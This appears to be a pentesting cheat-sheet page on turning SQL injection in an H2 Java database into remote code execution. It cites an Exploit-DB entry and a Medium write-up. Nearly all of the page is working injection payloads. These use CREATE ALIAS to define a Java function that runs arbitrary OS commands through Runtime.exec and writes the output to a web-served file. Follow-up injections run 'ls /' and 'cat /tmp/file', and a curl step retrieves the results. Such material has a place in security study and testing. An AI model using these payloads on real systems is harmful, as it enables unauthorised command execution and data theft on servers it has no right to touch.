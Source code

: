 # H2 Database (Java)

[https://www.exploit-db.com/exploits/49384](https://www.exploit-db.com/exploits/49384)

[https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2)

We could try to write an **alias** to a file on the webserver and then execute commands that will be retrieved on that file:

{% code overflow="wrap" fullWidth="true" %}
```sql
' or 1=0; CREATE ALIAS EXECVE AS ' String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return "Output written to /app/target/classes/static/hola.html"; }'; -- - 


'; CREATE ALIAS EXECVE AS ' String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return "Output written to /app/target/classes/static/hola.html"; }'; -- - 

# Now we can call that alias to run a command:
' or 1=0; CALL EXECVE('ls /'); -- -

'# We can retrieve the result by visiting that hola.html as example
curl -s http://$IP/hola.html

# We could issue other commands and visiting again the path to see the result
' or 1=0; CALL EXECVE('cat /tmp/file'); -- -
```
{% endcode %}
